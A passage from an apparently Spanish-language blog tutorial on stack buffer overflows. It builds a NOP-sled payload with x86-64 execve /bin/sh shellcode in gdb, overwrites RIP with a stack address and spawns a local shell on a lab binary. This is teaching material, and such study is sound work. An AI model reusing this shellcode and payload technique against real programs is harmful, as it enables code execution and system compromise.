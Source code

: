 ```

Pasemos a ejecutar el binario en pwndbg de la siguiente manera:

```
r $(python2 -c "print '\x90'*76+'\x50\x48\x31\xd2\x48\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x54\x5f\xb0\x3b\x0f\x05'+'\x90'*20+'B'*8")
```
Vemos la misma historia, se ocasiono el ```segmentation fault``` y nuestro RIP vale ```0x4242424242424242``` que son las 8 B que le indicamos.

Para ver si nuestra shellcode esta en la memoria mostraremos 100 bytes del rsp menos 200 con el siguiente comando en gdb:

```x/100wx $rsp-200```

Esto nos debe de mostar algo como esto, donde la parte que esta seleccionada es nuestra shellcode, tambien ahi mismo podemos ver los 76 NOPs del junk, los 20 del padding y los 8 del RIP

![](/assets/img/commons/bof-stack-based/shellcode.png)


Por ultimo para poder ejecutar nuestra shellcode tenemos que cambiar esos 8 bytes del RIP a una direccion que este entre todos los NOPs y donde solo haya NOPs, esa direccion la tenemos que pasar a little endian, yo les recomiendo que usen cualquiera de estas, yo use la que esta seleccionada (es probable que las direcciones que les salgan a ustedes sean diferentes a las mias): 

![](/assets/img/commons/bof-stack-based/ret-shellcode.png)


El comando para ejecutar en gdb queda de la siguiente forma:

```
r $(python2 -c "print '\x90'*76+'\x50\x48\x31\xd2\x48\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x54\x5f\xb0\x3b\x0f\x05'+'\x90'*20+'\xe0\xdc\xff\xff\xff\x7f\x00\x00'")
```

Y listo, ya obtuvimos una shell!!

![](/assets/img/commons/bof-stack-based/pwn.png)

Eso ha sido todo, gracias por leer ❤


![](/assets/img/commons/bof-stack-based/waifu.png)